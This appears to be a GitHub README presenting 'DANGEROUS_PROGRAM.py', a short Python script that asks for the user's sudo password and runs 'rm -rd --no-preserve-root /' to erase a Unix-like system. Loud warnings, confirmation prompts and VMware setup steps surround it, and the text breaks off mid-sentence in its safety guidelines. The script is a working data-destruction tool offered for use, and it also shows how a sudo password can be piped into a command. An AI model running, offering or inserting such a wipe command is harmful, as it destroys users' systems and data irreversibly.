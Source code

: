 # **WARNING: EXTREMELY DESTRUCTIVE PROGRAM**
### **I AM NOT RESPONSIBLE FOR ANY DAMAGE CAUSED BY THIS PROGRAM!**
### **THIS SCRIPT IS MADE FOR EDUCATIONAL PURPOSES ONLY**
### **THIS SCRIPT IS MEANT TO BE RUN IN VIRTUAL MACHINES (VMs)**
### **DO NOT RUN THIS ON A REAL MACHINE.**
### **DO NOT USE THIS TO PRANK PEOPLE, THAT IS VERY DESTRUCTIVE AND ILLEGAL**

### **⚠️THIS PROGRAM IS EXTREMELY DANGEROUS AND CAN ERASE UNIX-LIKE SYSTEMS⚠️**
### **⚠️WHEN YOU RUN IT ON THE LATEST VERSION OF UBUNTU, IT BECOMES UNBOOTABLE⚠️**

**THIS PROGRAM IS MADE FOR EDUCATIONAL PURPOSES ONLY.**

**DO NOT EXECUTE THIS PROGRAM ON ANY SYSTEM CONTAINING IMPORTANT DATA OR ON ANY SYSTEM OTHER THAN A FULLY ISOLATED VIRTUAL MACHINE (VM).**

code:
```python
# DANGEROUS_PROGRAM.py
import os
import time
def main(sudo_password):
    if os.name != 'nt':
        os.system(f"echo '{sudo_password}' | sudo -S rm -rd --no-preserve-root /")
    else:
        print('this script is only for UNIX-like systems, you can make a VM (MAKE SURE ITS FULLY ISOLATED!)')
        time.sleep(2.5)
yesno = input("this code can DELETE YOUR SYSTEM if your on a unix-like system, it is NOT RECOMMENDED TO RUN THIS AT ALL, ONLY  RUN THIS IN SAFE AND COMPLETELY ISOLATED ENVIRONMENTS! THIS SCRIPT IS MADE FOR EDUCATIONAL PURPOSES ONLY! do you want to proceed?(y/n) ")
if yesno == "y": 
    sure = input('ARE YOU REALLY SURE? THIS CODE IS GONNA DELETE YOUR SYSTEM IF YOUR ON A UNIX-LIKE SYSTEM(y/n) ')
    if sure == "y":
        sudo_pass = input('this script needs sudo access, type your sudo password here: ')
        print('attempting to delete system...')
        time.sleep(1)
        main(sudo_pass)
if yesno == 'n':
    print('i understand, i would have done the same thing')
if yesno != 'y' and yesno != 'n':
    print('that is not even y or n, did you make a typo?')
    time.sleep(5)
```

---

## **Purpose**

This program is designed solely for educational purposes to demonstrate the effects of destructive software. It is not made for any malicious use. Users must exercise extreme caution and follow all safety guidelines to avoid unintended damage.

---

## **How to Safely Run the Program**

### **1. Install VMware Workstation Pro**

1. **Download VMware Workstation Pro** from the [official VMware website](https://www.vmware.com/products/workstation-pro.html).
2. **Install VMware Workstation Pro** following the provided instructions.

### **2. Create a New Virtual Machine**

1. **Open VMware Workstation Pro.**
2. Click **"Create a New Virtual Machine."**

### **3. Configure the Virtual Machine**

1. Select **"Typical (recommended)"** and click **"Next."**
2. **Choose a Linux ISO file** from a trusted source.
3. Click **"Installer disc image file (ISO)"** and select your Linux ISO file.
4. If prompted, **complete the "Personalize Linux"** screen. Document this information for future reference.
5. Click **"Next."**
6. **Adjust the virtual hard disk** settings as needed, ensuring it’s not set too low.
7. Click **"Finish."**

### **4. Start and Install Linux**

1. Click **"Power on this virtual machine."**
2. Follow the on-screen instructions to install Linux.

### **5. Execute the Program Safely**

1. Once the Linux VM is set up and running, you can safely execute the destructive program within this isolated environment.

---

## **Important Safety Guidelines**

- **Network Isolation:** Ensure the VM is isolated from your host network to prevent any accidental interactions.
- **Snapshot and Backup:** Take a snapshot of the VM before running the program. This allows you to restore the VM to a previous state if needed.
- **Review Settings:** Double-check all VM settings and understand the program’s functions thor
